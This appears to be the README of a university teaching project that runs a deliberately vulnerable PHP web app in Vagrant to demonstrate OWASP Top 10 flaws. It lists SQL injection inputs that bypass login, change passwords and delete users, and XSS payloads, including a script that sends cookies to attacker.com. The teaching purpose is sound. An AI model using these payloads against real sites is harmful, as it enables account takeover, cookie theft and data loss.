 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install VirtualBox
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd $PRJ_HOME
> vagrant up
```
* in browser go to http://192.168.33.10/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
```
* or even worst
```sql
'; UPDATE  user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
"><script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>"
```
___

### TODOs:
- misconfiguration - ukazat ze to vylistuje adresar - udelat novyho virtualhosta nebo
- directory traversal


### Troubleshooting
 - Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not available. Please verify that the guest additions are properly installed in the guest and  can work properly. The command attempted was:
  - mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
  - mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
  - The error output from the last command was:
    - /sbin/mount.vboxsf: mounting failed with the error: No such device
 - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
